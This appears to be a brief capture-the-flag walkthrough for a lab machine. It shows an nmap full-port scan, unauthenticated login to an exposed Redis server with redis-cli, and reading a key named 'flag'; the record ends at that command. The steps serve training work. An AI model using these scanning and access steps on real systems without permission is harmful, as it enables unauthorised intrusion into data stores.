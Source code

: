 1. Scan all the ports (0-65535) and determine service and version of open ports
```bash
nmap -p- -sV [ip machine]
```
--> port 6379/tcp - open - redis


2. Get into the redis server
```bash
redis-cli -h [ip machine]
```
--> **MACHINE PWNED!**


3. Move inside the machine and Capture the flag 
```shell
[ip machine:6379]> info
	# Keyspace
	db0:keys=4,expires=0,avg_ttl=0

[ip machine:6379]> keys*
	1) "numb" / 2) "stor" / 3) "flag" / 4) "temp"

[ip machine:6379]> get flag

